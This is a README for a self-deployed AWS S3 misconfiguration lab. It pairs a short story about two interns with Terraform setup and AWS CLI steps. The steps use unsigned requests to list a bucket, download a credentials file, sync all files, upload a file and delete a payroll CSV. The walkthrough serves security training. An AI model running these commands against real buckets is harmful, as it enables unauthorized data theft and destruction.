 # S3 Unauthenticated Bucket Access

# In the bustling corridors of Cloud Innovators, a cutting-edge tech organization, two interns named Alice and Bob joined the ranks. Eager to prove themselves, they were tasked with deploying S3 buckets to store important company files. Little did they know that their actions would set the stage for a cloud security saga. Alice created the bucket MisconfiguredBucket and Bob misconfiguredacl bucket

# Now that you've journeyed through the gripping story of Cloud Innovators, it's time for you, to immerse yourself as an attacker and how to act as defense in such scenarios in hands-on learning.

* Explore Misconfigurations in "MisconfiguredBucket":

Enter the realm of the misconfigured S3 bucket, "alice-misconfiguredbucket," where an attacker gained unauthorized access. Dive into the hands-on lab and discover how misconfigurations can lead to CRUD operations on sensitive files. Learn to secure your buckets against potential threats.

* Unravel the Mystery of "misconfiguredacl":

Venture into the kingdom of "misconfiguredacl," where Authenticated Users gained unintended FULL_CONTROL permissions. Engage in the lab to unravel the mystery, understand ACL misconfigurations, and fortify your buckets against unauthorized access.


## Follow the below instructions given to solve this Lab

### please install the below cli tools 


* AWS CLI

```bash
sudo apt-get install awscli
```
* Terraform - click on the below link for further help on on installing 

```bash
https://developer.hashicorp.com/terraform/tutorials/aws-get-started/install-cli
```

* Step 1 Clone the repository 

```bash
git clone https://github.com/bvabhishek/cracoon-S3-lab1.git
```
* Step 2: Change Directory

```bash
cd s3misconfiguration/
```
* Step 3: Initialise terraform 

```bash
terraform init
```

* Step 4: Run `terraform apply -auto-approve`

```bash
terraform apply -auto-approve
```

* Step 5: Export bucket name created by Alice 

```bash
export s3bucket=<bucketname> 
```

* Step 6: Lets try to list down the contents of bucket

```bash
aws s3 ls s3://$s3bucket --no-sign-request
```
* Step 7: Now lets perform all the possible attack scenarios

* Step 8: Lets first download the fishy files - to your current working directory

```bash
aws s3 cp s3://$s3bucket/creds.txt . --no-sign-request 

```
* To download all the files from the bucket use sync command

```bash
aws s3 sync s3://$s3bucket /home/abhi/seasides/test/
```

* Step 9: Let's upload a new file 

```bash
aws s3 cp seasides.jpeg s3://$s3bucket --no-sign-request 
```

* Step 10: Let's Delete a file 


```bash
aws s3 rm s3://$s3bucket/emp_pay_dont_delete.csv --no-sign-request 
```


* By this we know that the attacker has performed all the malicious functionalities ie, CRUD operations which leads to Vulnerabilities such as 
* Broken Authentication
* Sensitive Information Disclosure 

